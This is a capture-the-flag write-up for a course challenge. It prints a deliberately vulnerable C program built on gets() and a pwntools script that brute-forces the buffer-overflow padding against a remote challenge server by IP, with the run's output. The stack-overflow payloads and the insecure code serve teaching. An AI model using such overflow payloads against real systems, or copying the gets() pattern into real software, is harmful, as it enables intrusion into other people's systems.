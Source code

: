 ```yaml
---
title: "Tutor CTF: Cookie Monster"
description: (200 points) Binary Exploitation Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-08 23:15+11:00
lastModified: 2022-04-08 23:15+11:00
notes: ''
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 31_tutorctf_cookie_monster
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._

## Exploration

We are given a netcat IP address and a exploitable buffer code. Let's look at it:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define BUFFER_SIZE 16
#define FLAG_SIZE 50
#define QUOTE_SIZE 4

char flag[FLAG_SIZE];
char quotes[QUOTE_SIZE][100] = {"NOT ENOUGH COOKIES", "I'M STILL HUNGRY", "MORE", "GRRR GIVE ME COOKIES"};

void oppsie(void) {
    char c1 = 1;
    char c2 = 1;
    char c3 = 1;
    char c4 = 1;
    char c5 = 1;
    char c6 = 1;
    char buffer[BUFFER_SIZE];
    gets(buffer);

    if (c1 == 'C' && c2 == 'O' && c3 == 'O' && c4 == 'K' && c5 == 'I' && c6 == 'E') {
        printf("%s\n", flag);
        fflush(stdout);
        exit(1);
    }
}

void cry(int counter) {
    printf("%s", quotes[counter % QUOTE_SIZE]);
    for (int i = counter*2; i > 0; i--) {
        printf("!");
    }
    printf("\n");
}

int main(int argc, char **argv){

    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("Missing flag.txt\n");
        exit(0);
    }

    fgets(flag, FLAG_SIZE, f);

    printf("HI, I'M THE COOKIE MONSTER AND I LOVE COOKIES\n");

    int counter = 0;
    while (1) {
        printf("Feed the cookie monster: ");
        fflush(stdout);
        oppsie();
        if (counter > 0) {
            cry(counter);
        }
        counter++;
    }
    return 0;
}
```

So right off the bat, it looks like the `oppsie` function is going to be pretty important, since if we can somehow get the variables `c1` to `c6` equal to "COOKIE", then we can get the flag. Unfortunately, we have no way of changing them from their initial values, so it seems impossible.

However, we can exploit a buffer overflow in the `gets(buffer)` line. `gets` is insecure, and does not check the size of the buffer when scanning in. This means that if we enter a string that is longer than BUFFER_SIZE (16 in this case), we will start to overflow our buffer and overwrite values in the stack. Hence, we can enter something like "AAAAAAAAAAAAAAAAEIKOOC" (16 A's, followed by COOKIE in reverse because we overwrite the variables in reverse order) in order to overwrite the next variables on the stack, which of course happen to be `c6`, `c5`, `c4`, etc.

## Bruteforcing with Pwntools

Though in reality, it's not all that simple. Because of how compilers will align variable addresses, we're not guaranteed that we need exactly 16 A's. It can be a little bit more than that. Thus, it's useful to write a script that will try all sorts of different numbers of A. `pwntools` provides a really nice tool that allows us to quickly connect to such a netcat server and brute force all the different numbers until we find one that works. Here's a very crude implementation that crashes as soon as it finds the correct number of A's:

```python
from pwn import *

conn = remote("13.210.180.94", 10001)
for i in range(16, 30):
    conn.recvuntil(b'Feed the cookie monster: ')
    s = b'A'*i+b'EIKOOC\n'
    conn.send(s)
    print(i, s)

conn.close()
```

Running it, we get:

```term
$ python3 get.py
16 b'AAAAAAAAAAAAAAAAEIKOOC\n'
17 b'AAAAAAAAAAAAAAAAAEIKOOC\n'
18 b'AAAAAAAAAAAAAAAAAAEIKOOC\n'
19 b'AAAAAAAAAAAAAAAAAAAEIKOOC\n'
20 b'AAAAAAAAAAAAAAAAAAAAEIKOOC\n'
21 b'AAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
22 b'AAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
23 b'AAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
24 b'AAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
25 b'AAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
26 b'AAAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
Traceback (most recent call last):
  File "attack.py", line 5, in <module>
    conn.recvuntil(b'Feed the cookie monster: ')
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 13.210.180.94 port 10001
```

Which tells us that 26 A's caused the program to exit without giving us another "Feed the cookie monster:" message. In other words, we've found the right number of A's to trigger the `oppsie` code! We can now manually enter in the correct string to get the flag, or alternately run pwntools in DEBUG mode so that it returns the final message before the program crashed.

```term
$ python3 get.py DEBUG
```
